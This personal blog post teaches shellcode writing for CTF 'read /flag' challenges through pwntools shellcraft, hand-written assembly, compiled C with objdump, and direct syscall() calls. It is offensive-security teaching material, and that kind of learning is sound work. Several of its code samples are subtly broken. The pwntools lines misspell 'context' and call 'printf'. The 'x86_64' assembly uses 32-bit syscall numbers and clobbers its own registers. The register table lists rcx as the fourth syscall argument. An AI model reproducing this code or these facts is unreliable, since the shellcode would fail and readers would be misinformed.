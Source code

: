 ```yaml
---
layout: post
title: How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development
subtitle: Learn through First principles c
gh-repo: muchiking.github.io/
# gh-badge: [star, fork, follow]
tags: [cybersecurity.binary,pwn]
comments: true
---
```


# How to Write Shellcode for Shellcode Injection and Simplify Assembly Code Development

Shellcode injection is a powerful technique that allows the injection and execution of custom code within a target process. In this blog post, we'll explore different approaches to writing shellcode and discuss methods to streamline the development of assembly code.


# way one

## The Power of Pwntools: Crafting Shellcode with Python

One of the easiest ways to write shellcode is by using the Python library called pwntools. Pwntools provides a rich set of features to simplify exploit development, including a module called shellcraft, which helps in crafting shellcode for various operations.

Here's an example of using pwntools and shellcraft to generate shellcode that reads and prints the contents of the "/flag" file:

```
from pwn import *
content.update(arch="amd64")
pay=(asm(shellcraft.cat('/flag')))
printf(pay=(asm(shellcraft.cat('/flag'))))
```




By leveraging pwntools and shellcraft, you can easily generate shellcode for different operations, such as file manipulation, network communication, or privilege escalation.


hoold up that's not the end some of us do not want peace.
all in all  its best to have multiple ways to do things since you may want a functionality that is not implemented by pwn tools 

# way two 

## Hardcoding Assembly: Fine-grained Control and Understanding

### directly hard code it using assembly like the chad you are 

For those seeking more control and a deeper understanding of the inner workings of shellcode, hardcoding assembly instructions can be a viable approach. Let's take a closer look at the assembly code for opening, reading, and writing a file using the x86_64 architecture:

```
global _start
section .text

_start:
    ; Open the file
    mov eax, 0x5   ; sys_open system call number
    mov edi, filename
    mov esi, 0     ; flags (O_RDONLY)
    xor edx, edx   ; mode (permissions)
    syscall

    ; Read from the file
    mov ebx, eax   ; file descriptor
    mov eax, 0x3   ; sys_read system call number
    mov edi, ebx   ; file descriptor
    lea esi, [rsp] ; buffer address
    mov edx, 0x100 ; buffer size
    syscall

    ; Write to STDOUT
    mov eax, 0x4   ; sys_write system call number
    mov edi, 1     ; STDOUT file descriptor
    mov edx, eax   ; bytes to write
    syscall

    ; Exit the program
    mov eax, 0x1   ; sys_exit system call number
    xor ebx, ebx   ; exit status
    syscall

section .data
    filename db "/flag",0

```

By directly working with assembly code, you have fine-grained control over the instructions and can better understand the interactions between the operating system and your code.

save it as a dot .s file eg thanksforreadintheblog.s
then compile it with the -nostdlib flag
```
gcc -nostdlib -o thanksforreadintheblog thanksforreadintheblog.s
```

though assembly is for chads it lacks documentation

the best documentation out there are x86_64 syscals tables
![Pasted image 20230713211214.png](/assets/img/20230713211214.png)

as you can see they are not that clear like the flags to open the files i found it from linux kernel files written by the world wide wwe heavy weight champion  Linus Torvald  

and that is why we have to be smart
the smartest way to move is by the use of c and yes you do not need to learn programming to be a hacker.

#  part way 3 and way 4 

## Using C to Implement binary: Streamlining the Process

While writing shellcode in assembly can be powerful, it can also be time-consuming. A more efficient approach is to leverage the capabilities of C programming to implement shellcode using system calls. The POSIX standard provides a common interface for system calls across different Unix-like operating systems.

we will be using the posix standard since it is a standard that is followed by all who want to interact with the kernel

the defination by onchan chat gpt is that posix is 
```
POSIX stands for "Portable Operating System Interface." It is a set of standards that define the application programming interface (API), shell interface, and utility interfaces for software compatibility between different Unix-like operating systems. POSIX-compliant systems provide a common framework for developing and executing software, allowing programs written for one POSIX-compliant operating system to run on another without significant modifications.

```

this is how you implement it

![Pasted image 20230713213655.png](/assets/img/20230713213655.png)

after compiling you can get the assembly code by running objdump on the compiled binary 

![Pasted image 20230713214331.png](/assets/img/20230713214331.png)





![Pasted image 20230713221523.png](/assets/img/20230713221523.png)

as you can see this registers match appart from rax 

from the compiled binary you just replace call with syscall and eax with the call number  by doing this you save yourself a lot of time reading man pages 

The fourth

the easiest way to do this is by using a direct syscall in c eg

```
#include <sys/fcntl.h>
#include <sys/unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/syscall.h>
// #include <sys/syscall.h>

#define BUFSIZE 4096


void main(){
char buffer[BUFSIZE];
ssize_t bytesRead;
ssize_t bytesWritten;
int fd;
fd=syscall(SYS_open,"/flag",O_RDONLY);
bytesRead = syscall(SYS_read, fd, buffer, BUFSIZE);
bytesWritten = syscall(SYS_write, STDOUT_FILENO, buffer, bytesRead);
syscall(SYS_close, fd);
}
```

the assembly code generated looks like this
![Pasted image 20230713220301.png](/assets/img/20230713220301.png)


this is syntax used in to pass values that are soon to be executed by a function in assembly.

```
rax: caries return values also carries syscal values usaly the 0 argument
rdi:    First Argument
rsi:    Second Argument
rdx:    Third Argument
rcx:    Fourth Argument
r8:     Fifth Argument
r9:     Sixth Argument
```


since in the c files the syscall function takes more operators one extra argument is added that pushes things to the next rargument register so to reverse this you just mov arguments one regsiter back eg 

what is in rdi goes to rax, what is in rsi to rdi  then on and on.
the good thing about this method is that you do not need to check the syscall table thus saves you more time. 


Thank you for taking the time to read through this blog post. I would like to express my gratitude to the pwn.collage for their valuable training and challenging experiences, which have contributed to my understanding of shellcode injection.

I hope you found this blog post informative and helpful. If you have any further questions or need assistance, please feel free to reach out. Have a great day ahead!
